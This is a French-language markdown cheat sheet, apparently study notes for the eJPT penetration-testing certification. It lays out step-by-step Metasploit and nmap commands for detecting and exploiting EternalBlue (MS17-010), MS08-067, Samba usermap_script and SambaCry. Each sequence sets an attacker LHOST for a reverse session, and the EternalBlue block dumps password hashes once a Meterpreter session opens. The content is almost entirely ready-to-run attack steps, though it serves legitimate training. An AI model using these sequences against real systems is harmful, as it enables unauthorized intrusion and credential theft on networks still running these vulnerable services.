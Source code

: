 
## 🎯 7. Exploitation selon détection

### Windows - EternalBlue (MS17-010) ⭐ PRIORITÉ eJPT
```bash
# 1. Détection EternalBlue
nmap --script smb-vuln-ms17-010 -p445 target
# OU
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS target
run

# 2. Si VULNERABLE → Exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
check                                    # Vérifier avant exploit
exploit

# 3. Si succès → Session Meterpreter
sysinfo
getuid
hashdump
```

### Windows - MS08-067 (Conficker)
```bash
# 1. Détection MS08-067
nmap --script smb-vuln-ms08-067 -p445 target

# 2. Exploitation
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target
set LHOST attacker_ip
exploit
```

### Linux - Samba usermap_script (CVE-2007-2447)
```bash
# 1. Détection version Samba
enum4linux target | grep "Samba"
smbclient -L target | head

# 2. Si Samba 3.0.20-3.0.25rc3 → Exploitation
use exploit/multi/samba/usermap_script
set RHOSTS target
set LHOST attacker_ip
exploit
```

### Linux - SambaCry (CVE-2017-7494)
```bash
# 1. Détection version Samba 3.5.0-4.6.4
enum4linux target

# 2. Exploitation SambaCry
use exploit/linux/samba/is_known_pipename
set RHOSTS target
set LHOST attacker_ip
exploit
```

---